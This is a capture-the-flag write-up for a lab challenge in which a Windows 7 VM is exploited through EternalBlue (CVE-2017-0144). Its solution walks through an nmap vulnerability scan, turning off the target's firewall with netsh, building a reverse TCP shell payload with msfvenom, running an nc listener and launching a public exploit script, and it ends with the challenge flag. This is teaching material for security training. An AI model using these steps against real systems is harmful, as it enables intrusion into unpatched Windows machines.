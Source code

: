 # BlueDoor Writeup

## Challenge Information

Link: https://github.com/sethwhy/BlueDoor/tree/main

Difficulty: 3/5

Category/Categories: Exploitation, Windows

Author(s): Seth Davis
References(s): worawit & strik1r

Description:

```
Can you exploit the EternalBlue vulnerability (CVE-2017-0144) on a Windows 7 system and retrieve the hidden flag? Your goal is to gain administrative privileges and locate the flag.txt file stored in the `C:\Windows\System32` directory.

This challenge simulates a real-world vulnerability and requires you to analyze the system, execute an exploit, and navigate to the restricted file location.

```

Hint(s):

- `Hidden in plain sight, more like plain text!`
- `Hmm System32 huh..`

When you first start the challenge, you are presented with:

A Windows 7 virtual machine vulnerable to EternalBlue (CVE-2017-0144).
A flag hidden in the system, requiring administrative privileges to access.

## Solution

```
1. Environment Setup:
Install and configure Kali Linux in your virtual environment (e.g., VMware, VirtualBox).
Ensure that your IP address matches the subnet of the target machine.

2. Network Scanning:
Use nmap to scan for open ports and detect if the target is vulnerable:
nmap -p 139,445 --script smb-vuln-ms17-010 <target-ip>
Confirm that TCP ports 139 and 445 are open and that the SMB service is vulnerable.
![net-scan](image-1.png)

3. Disable Firewalls (on the target)
If possible, run:
netsh advfirewall set allprofiles state off
This ensures no interference during the exploitation process.
![firewall-off](image.png)
Password for Flag user that isnt the flag: 4770_sethwhy

4. Exploit EternalBlue:
Use Metasploit or any other payload generator to create a reverse TCP payload.
Some links for help the way I did it - https://github.com/helviojunior/MS17-010, https://github.com/worawit/MS17-010, https://redteamzone.com/EternalBlue/, https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/

Assemble shellcode & create payload
- nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<VM kali machine ip> LPORT=<listen port i.e 4445> -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
(There are other ways to do this, im giving you one solution)

- Set up a listener on your attacking machine:
nc -lvnp 4445
![listener-launch](image-3.png)

- Run the command "python eternalblue_exploit7 <target-ip> <any shellcode that works>"

- Deliver the payload to the target and exploit the vulnerability.
![SMB1-connection](image-2.png)

5. Gain Administrative Privileges:
Once inside the system, check to see if privileges were escalated.
![whoami](image-4.png)

6. Search for the Flag:
Look for .txt files in the C:\Windows\System32 directory with this command:
dir *.txt /s /b
![txt-scan](image-5.png)

Locate and open the flag.txt file to retrieve its contents.
![flag-content](image-6.png)
```

Flag: `CTF{4770_sethwhy}`
